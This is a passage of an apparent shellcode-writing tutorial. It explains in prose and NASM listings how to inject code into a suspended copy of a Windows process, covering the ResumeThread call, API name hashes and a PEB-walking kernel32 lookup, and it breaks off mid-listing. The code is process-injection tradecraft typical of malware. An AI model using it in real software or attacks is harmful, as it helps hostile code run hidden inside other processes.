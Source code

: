 {% highlight text %}
DWORD ResumeThread(
  HANDLE hThread
);
{% endhighlight %}
<p align="center">
    <em>Code Listing 19: ResumeThread Win32 API</em>
</p>

The **hThread** stored in the **PROCESS_INFORMATION** object stored in **ESI** will be used one final time to provide the sole argument required by the **ResumeThread** function.

The following assembly code will resume the suspended thread and execute the injected code.

{% highlight Nasm linenos %}
push dword [esi+0x04]               ; hThread = PROCESS_INFORMATION.hThread = ESI+0x04
call [ebp+0x20]                     ; Call ResumeThread
{% endhighlight %}
<p align="center">
    <em>Code Listing 20: Calling Resume Thread</em>
</p>

## Putting it All Together
The following code will inject the stored code into a suspended copy of the current process:

{% highlight Nasm linenos %}
[SECTION .text]
 
BITS 32
 
_start:
    jmp main
    
    ; Constants
    win32_library_hashes:
        call win32_library_hashes_return
        ; LoadLibraryA
        dd 0xEC0E4E8E
        ; CreateProcessW - EBP + 0x08
        dd 0x16B3FE88
        ; ExitProcess - EBP + 0x0C
        dd 0x73E2D87E
        ; GetThreadContext - EBP + 0x10
        dd 0x68A7C7D2
        ; VirtualAllocEx - EBP + 0x14
        dd 0x6E1A959C
        ; WriteProcessMemory - EBP + 0x18
        dd 0xD83D6AA1
        ; SetThreadContext - EBP + 0x1C
        dd 0xE8A7C7D3
        ; ResumeThread - EBP + 0x20
        dd 0x9E4A3F88
    
    ; ======== Function: find_kernel32
    find_kernel32:
        push esi
        xor eax, eax
        mov eax, [fs:eax+0x30]
        mov eax, [eax+0x0C]
        mov esi, [eax+0x1C]
        mov esi, [esi]
        lodsd
        mov eax, [eax+0x08]
        pop esi
        ret
        
    ; ======= Function: find_function